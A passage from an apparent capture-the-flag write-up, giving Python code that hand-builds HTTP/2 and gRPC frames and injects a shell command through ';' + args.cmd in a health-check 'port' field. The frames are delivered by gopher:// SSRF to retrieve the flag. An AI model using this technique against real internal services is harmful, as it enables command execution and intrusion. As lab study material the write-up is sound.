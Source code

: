 Next, we craft the **HEADERS frame**, using the `hpack` encoder to properly format all the required headers:
```python
def get_headers_frame():
	encoder = Encoder()
	headers = [
		(':method', 'POST'),
		(':scheme', 'http'),
		(':path', '/live.LiveDataService/CheckHealth'),
		(':authority', 'localhost:50051'),
		('content-type', 'application/grpc'),
		('te', 'trailers'),
	]
	encoded_headers = encoder.encode(headers)

	headers_header = len(encoded_headers).to_bytes(3, 'big') + b'\x01\x04' + b'\x00\x00\x00\x01'
	return headers_header + encoded_headers
```

Now let's craft the **gRPC payload**. For this step, we need to use the stubs generated from the `.proto` file. 

>You can generate them using the following command: `python -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. live_data.proto`

We'll inject the command in the `port` field, which is where the vulnerability lies:
```python
def get_grpc_frame(ip: str, port: str):
	request = live_data_pb2.HealthCheckRequest(ip=ip, port=port)
	grpc_payload = request.SerializeToString()

	return b'\x00' + len(grpc_payload).to_bytes(4, 'big') + grpc_payload
```

Finally, we put everything together into a binary payload and write it to a file, or just generate the `gopher://` payload directly.

Here, I saved the request to a file and read it later to generate the payload. Honestly, I only did it this way because I had code already working from previous tests, and I was too lazy to change it.
```python
grpc_frame = get_grpc_frame("127.0.0.1", ';' + args.cmd)
data_header = len(grpc_frame).to_bytes(3, 'big') + b'\x00\x01' + b'\x00\x00\x00\x01'
data_frame = data_header + grpc_frame

with open("grpc_request.bin", "wb") as f:
	f.write(b"PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n")  # HTTP/2 connection preface
	f.write(get_settings_frame())
	f.write(get_headers_frame())
	f.write(data_frame)
```


With the payload ready, all that's left is to URL-encode it, prepend `gopher://`, send it to `/connect-realm`, and retrieve the flag.
![Flag](imgs/flag.png)